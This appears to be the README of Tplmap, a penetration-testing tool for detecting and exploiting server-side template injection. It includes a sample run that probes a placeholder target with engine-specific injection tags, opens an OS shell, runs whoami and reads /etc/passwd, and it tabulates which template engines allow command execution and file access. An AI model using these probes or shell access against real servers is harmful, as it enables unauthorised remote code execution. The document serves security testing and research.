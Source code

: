 Tplmap
======

Tplmap (short for _Template Mapper_) is a tool that automate the process of detecting and exploiting Server-Side Template Injection vulnerabilities (SSTI).

This can be used by developers, penetration testers, and security researchers to detect and exploit vulnerabilities related to the template injection attacks.

The technique can be used to compromise web servers' internals and often obtain Remote Code Execution (RCE), turning every vulnerable application into a potential pivot point.

The modular approach allows any contributor to extend the support to other templating engines or introduce new exploitation techniques. The majority of the techniques currently implemented came from the amazing research done by [James Kett, PortSwigger][1].

> The application is currently under heavy development and misses some functionalities.

Example
--------

```
$ ./tplmap.py -u 'http://www.target.com/app?id=*' 
[[+] Tplmap 0.1b
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Found placeholder in GET parameter 'id'
[+] Smarty plugin is testing reflection on text context with tag {*}
[+] Smarty plugin is testing }*{ code context escape with 6 mutations
[+] Mako plugin is testing reflection on text context with tag ${*}
[+] Mako plugin is testing %>*<%# code context escape with 6 mutations
[+] Jinja2 plugin is testing reflection on text context with tag {{*}}
[+] Jinja2 plugin is testing %}* code context escape with 6 mutations
[+] Twig plugin is testing reflection on text context with tag {{*}}
[+] Twig plugin is testing }}*{{1 code context escape with 6 mutations
[+] Freemarker plugin is testing reflection on text context with tag ${*}
[+] Freemarker plugin is testing }* code context escape with 6 mutations
[+] Velocity plugin is testing reflection on text context with tag #set($p=*)\n${p}\n
[+] Velocity plugin is testing )* code context escape with 6 mutations
[+] Jade plugin is testing reflection on text context with tag \n= *\n
[+] Jade plugin has confirmed injection with tag '\n= *\n'
[+] Tplmap identified the following injection point:

  Engine: Jade
  Template: \n= *\n
  Context: text
  OS: darwin
  Capabilities:
    Code evaluation: yes, javascript code
    OS command execution: yes
    File write: yes
    File read: yes

[+] Rerun tplmap providing one of the following options:
    --os-cmd or --os-shell to access the underlying operating system
    --upload LOCAL REMOTE to upload files to the server
    --download REMOTE LOCAL to download remote files
    
$ ./tplmap.py -u 'http://www.target.com/app?id=*' --os-shell
[+] Run commands on the operating system.
linux $ whoami
www-data
linux $ ls -al /etc/passwd
-rw-r--r--  1 root  wheel  5925 16 Sep  2015 /etc/passwd
linux $

```

Supported template engines
--------------------------

| Template engine    | Detection | command execution | Code evaluation | File read | File write |
|--------------------|-----------|-------------------|-----------------|-----------|------------|
| Mako               |  yes      | yes               | python          | yes       | yes        |
| Jinja2             |  yes      | yes               | python          | yes       | yes        |
| Jade               |  yes      | yes               | javascript      | yes       | yes        |
| Smarty (unsecured) |  yes      | yes               | PHP             | yes       | yes        |
| Freemarker         |  yes      | yes               | no              | yes       | yes        |
| Velocity           |  yes      | no                | no              | no        | no         |
| Twig               |  yes      | no                | no              | no        | no         |
| Smarty (secured)   |  yes      | no                | no              | no        | no         |


[1]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
